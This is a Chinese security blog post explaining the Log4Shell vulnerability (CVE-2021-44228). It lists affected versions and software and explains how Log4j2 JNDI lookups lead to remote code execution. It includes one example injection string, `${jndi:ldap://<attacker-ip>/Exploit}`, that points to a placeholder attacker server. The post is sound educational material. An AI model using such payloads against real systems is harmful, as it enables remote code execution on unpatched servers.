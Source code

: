 ```yaml
---
layout: post
title: "【网络安全】Log4shell学习"
subtitle: "log4j2 RCE"
date: 2024-08-27
author: "3thernet"
header-img: "img/bg-touhou-6.jpg"
tags: []
---
```


## 0x01 概述

Log4Shell，编号CVE-2021-44228，是Apache Log4J 2 Java某些版本中的RCE漏洞，CVSS评分为10，被认为是互联网有史以来最重大的安全漏洞之一。

影响范围：Apache Log4j 2.x<=2.14.1

任何使用低版本Log4j2记录未经验证用户输入的应用程序都可能受到影响，比如 ：

- Tomcat, JBoss, WebSphere 使用 Log4j2 记录HTTP请求或参数；

- Kafka、Spark等大数据框架使用Log4j2来记录事件；

- Solr和Elasticsearch使用Log4j2进行日志记录；

- Jenkins等开发工具使用Log4j2来监控和记录活动；

- Minecraft服务器使用Log4j2记录玩家活动

Checklist:

```
Spring-Boot-strater-log4j2
Apache Struts2
Apache Solr
Apache Flink
Apache Druid
ElasticSearch
Flume
Dubbo
Redis
Logstash
Kafka
vmvare
Swift frameworks
```

### 漏洞原理

**JNDI（Java Naming and Directory Interface）**：JNDI是一种Java API，用于在Java应用程序中访问各种命名和目录服务，例如LDAP（轻量级目录访问协议）、DNS、RMI等。

Log4j2支持一种表达式语言（即Lookups），用于在日志消息中插入动态内容。例如，`${env:USERNAME}`可以插入当前环境变量`USERNAME`的值。同时，Log4j2还支持JNDI查找，如`${jndi:ldap://<attacker-ip>/Exploit}`。当Log4j2处理这样的表达式时，它会尝试连接到LDAP服务器，如果LDAP服务器为攻击者所控制，则可以返回一个指向恶意Java类的URL引用（通常是HTTP），其中包含构造函数或静态代码块，Log4j2会从该URL下载并加载执行恶意代码。
